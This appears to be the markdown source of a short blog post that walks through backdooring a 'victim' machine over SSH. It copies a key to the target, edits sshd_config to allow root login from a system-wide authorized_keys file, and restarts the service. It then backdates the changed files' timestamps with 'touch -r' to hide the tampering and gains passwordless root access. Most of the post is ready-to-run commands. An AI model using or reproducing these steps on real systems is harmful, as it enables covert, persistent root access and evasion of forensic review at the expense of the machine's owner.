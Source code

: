 ```yaml
---
layout: post
title:  "SSH Public Key Authentication"
categories: ssh public_key
summary: Public key authentication to victim computer
---
```


{% include instructions.md %}

### {{page.title}}

Create key pair on hostile’s computer, move public key to victim’s computer and take SSH connection to it

```shell
# ssh-keygen
# ssh-copy-id [username]@[victim ip address]
# ssh [username]@[victim ip address]
```

On victim’s computer modify sshd_config allow the root to login, change SSH to find public keys also from /etc/ssh/authorized_keys and move public key to that location.
```shell
# nano /etc/ssh/sshd_config
PermitRootLogin yes
AuthorizedKeysFile %h/.ssh/authorized_keys /etc/ssh/authorized_keys

# cp /home/[username]/.ssh/authorized_keys /etc/ssh/
# chown root:root /etc/ssh/authorized_keys
# chmod +r /etc/ssh/authorized_keys
# service ssh restart
# touch /etc/ssh/sshd_config -r /srv
# touch /etc/ssh/authorized_keys -r /srv
```

Now you can take SSH connection without password using root (or any other user) from hostile computer
```shell
# ssh root@[victim ip address]
```